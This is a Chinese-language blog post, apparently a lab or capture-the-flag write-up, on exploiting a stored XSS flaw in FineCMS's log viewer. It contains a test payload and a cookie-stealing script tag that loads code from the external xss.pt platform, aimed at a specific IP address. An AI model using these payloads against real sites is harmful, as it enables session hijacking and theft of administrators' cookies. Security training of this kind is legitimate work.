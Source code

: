 ```yaml
---
layout: post
title: 存储型 XSS 利用
categories: [安全, XSS]
description: 
keywords: 安全, XSS, fofa
---
```


# 存储型XSS


## 0x00 写在前面

1.  任何事情切忌脑壳铁， **多听、多看、多梳理**才能快速构建**自己的知识树** ， 因而提高自己的快速检索能力。

2. 好文推荐 [循序渐进理解：跨源跨域，再到 XSS 和 CSRF - 双猫](https://catcat.cc/post/2020-06-23/)


## 信息收集

### fofa

进入 `https://fofa.so` 搜索网站地址

![](https://nc0.cdn.zkaq.cn/md/8461/e05f59b0f47fb0b744e9343f76d8d451_61120.png)

![](https://nc0.cdn.zkaq.cn/md/8461/93284c8f1a213159d3ebcf41fbfc4f6d_36878.png)


整理信息：

操作系统： windows
Web容器： `apache/2.4.23/(win32)`
开发语言版本: `php/5.4.45`


### cms 查询

**开发调试工具**

![](https://nc0.cdn.zkaq.cn/md/8461/34bef83517b77ed6b3e12748e32dac0e_21546.png)


**cms 指纹工具**

这里说一下小插曲， 有些在线 cms 网站装怪， 只能识别域名， IP加端口就不行。

这里， 可以使用 https://www.freenom.com/zh/index.html 搞一个免费域名绑定上， 就可以识别了。

![](https://nc0.cdn.zkaq.cn/md/8461/ed9aa6076073872b4747d44bd04ba484_36374.png)

**yunsee** : https://www.yunsee.cn/ ， 收费， 还不能直接给钱。

其他 github 上一大堆指纹识别工具。

假设， 我们通过工具识别出来了是 **finecms**


## Cms 渗透测试

### 已有漏洞搜索与利用

> 以铜为鉴，可以正衣冠，以人为鉴，可以知得失，以史为鉴，可以知兴替

搜索 **finecms 漏洞** ，得到信息还不少。类似于， sql注入， xss， 上传解析漏洞等比比皆是。

**做事踩坑是必然的， 但遇事不要死脑经。 **
**认真阅读和分析前辈的思路，才能快速拓宽视野，实现厚积薄发**

+ 参考资料:
	+ [Finecms 存储型XSS漏洞 - 查看日志 XSS](https://www.jianshu.com/p/200ea62486d9)
	+ [代码审计| FineCMS的GetShell姿势 - 查看留言 XSS](https://www.freebuf.com/column/165269.html)


### 确认 XSS 是否利用

根据文章指出，当访问不存在页面时，可能在日志触发存储型 XSS 利用漏洞。


**1. 快速测试**

通过浏览器构造页面访问请求，确认 XSS 漏洞是否存在

```bash
http://59.63.200.79:8082/index.php?c=mail&m=test123<img src=1.png onerror=alert(1)>
```

![](https://nc0.cdn.zkaq.cn/md/8461/c138aa4cd55253f5c2e268c0b2d90aa0_14010.png)

经确认， 该 XSS 漏洞可能依旧可以利用。


### 构建 XXS cookie 窃取语句

注册 XSS 平台账户
+ https://xss.pt/xss.php

**1. 创建项目**

**2. 生成偷cookie语句**


![](https://nc0.cdn.zkaq.cn/md/8461/65ec2a8b41853ff390c2e669d45dba7d_41229.png)

这里由于是后台日志，非勤劳的站长，可能并不会时时查看日志。 因此， **keepsession** 打开， 等待鱼儿上钩。

当然， 也可以去喂鱼。

```html
<sCRiPt sRC=//xss.pt/94ST></sCrIpT>
```

**3. 利用**

在浏览器输入渗透测试语句

```
http://59.63.200.79:8082/index.php?c=mail&m=test12123<sCRiPt sRC=//xss.pt/xxxxx></sCrIpT>
```

![](https://nc0.cdn.zkaq.cn/md/8461/aaa6e6d9ad2eb8995f2f7eeac715d6f7_35755.png)

**4. 收网**

等待结果

看到有两条鱼儿上钩
![](https://nc0.cdn.zkaq.cn/md/8461/62b5b99e996a227d189fc5a50d7bd738_66171.png)

获取 flag

```
flag=zKaQ-01sdfDCo0
```

